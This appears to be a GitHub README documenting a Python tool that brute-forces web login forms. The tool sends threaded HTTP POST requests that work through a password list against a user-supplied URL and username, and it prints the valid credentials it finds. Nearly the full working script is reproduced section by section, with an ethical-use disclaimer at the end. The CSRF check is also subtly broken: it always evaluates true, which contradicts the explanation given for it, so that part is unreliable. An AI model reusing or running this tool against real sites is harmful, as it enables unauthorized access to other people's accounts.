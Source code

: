 # BruteForcing Documentation
This Python code attempts to brute-force a login page by iterating through a list of passwords, trying each one to gain access to a web service using HTTP POST requests. It uses threading to attempt multiple passwords in parallel, improving speed.

## Code Documentation
### Imports:

```python
import threading
import requests
import time
import sys
```

- threading: Enables multi-threaded execution, allowing multiple password attempts concurrently.
- requests: Handles HTTP requests to the login page.
- time: Adds delays for UX elements like displaying the banner.
- sys: Allows control over system-level operations, including output and script termination.
### BruteForcing Class
The BruteForcing class is responsible for handling the login attempts and detecting successful login credentials.

Attributes:

- url: The target URL for login attempts.
- username: Username to be tested against each password.
- error_message: Message displayed by the server upon an unsuccessful login attempt.

Initialization Method:

``` python
def __init__(self, url, username, error_message):
    self.url = url
    self.username = username
    self.error_message = error_message

    for run in banner:
        sys.stdout.write(run)
        sys.stdout.flush()
        time.sleep(0.02)
```

- Initializes the class with url, username, and error_message.
- Displays a banner animation by printing each character sequentially.

crack Method:

``` python
def crack(self, password):
    data_dict = {"LogInID": self.username, "Password": password, "Log In": "submit"}
    response = requests.post(self.url, data=data_dict)
    if self.error_message in str(response.content):
        return False
    elif "CSRF" or "csrf" in str(response.content):
        print("CSRF Token Detected!! BruteF0rce Not Working This Website.")
        sys.exit()
    else:
        print("Username: ---> " + self.username)
        print("Password: ---> " + password)
        return True
```

- Sends a POST request to the URL using requests.post with username and password.
- Checks for error_message in the response content to identify failed attempts.
- If "CSRF" appears in the response, the function assumes the site uses CSRF protection, exits, and halts the attack.
- On successful login, displays the valid credentials and stops further attempts.

### Helper Function: crack_passwords

``` python
def crack_passwords(passwords, cracker):
    count = 0
    for password in passwords:
        count += 1
        password = password.strip()
        print("Trying Password: {} Time For => {}".format(count, password))
        if cracker.crack(password):
            return
```

- Iterates over a list of passwords, incrementing a counter to track attempts.
- Passes each password to the crack method to test if it’s correct.
- Stops iterating when a successful login attempt is found.

### Main Function: main

``` python
def main():
    url = input("Enter Target Url: ")
    username = input("Enter Target Username: ")
    error = input("Enter Wrong Password Error Message: ")
    cracker = BruteForcing(url, username, error)

    with open("passwords.txt", "r") as f:
        chunk_size = 1000
        while True:
            passwords = f.readlines(chunk_size)
            if not passwords:
                break
            t = threading.Thread(target=crack_passwords, args=(passwords, cracker))
            t.start()
```

- url: The target URL for the brute-force attack.
- username: Username to test with each password.
- error: Error message indicating a failed login attempt.
- Initializes an instance of BruteForcing with user inputs.
- Reads the passwords.txt file in chunks, where each chunk represents a batch of passwords to test.
- Creates and starts a new thread for each password chunk to maximize parallel execution.

### Execution Block

``` python
if __name__ == '__main__':
    banner = """ 
                       Checking the Server !!        
        [+]█████████████████████████████████████████████████[+]
"""
    print(banner)
    main()
```

- Displays a banner before starting the brute-forcing attempts.
- Calls the main function to begin execution.

## Note on Ethical Use
IMPORTANT: Brute-force attacks are illegal and unethical when conducted without explicit permission. The code here is for educational purposes, to understand the mechanics of threaded brute-force attack logic. Always obtain permission from system owners before attempting any security tests.

For legitimate security testing, consider alternatives like password managers or dedicated penetration testing frameworks such as OWASP ZAP or Burp Suite.
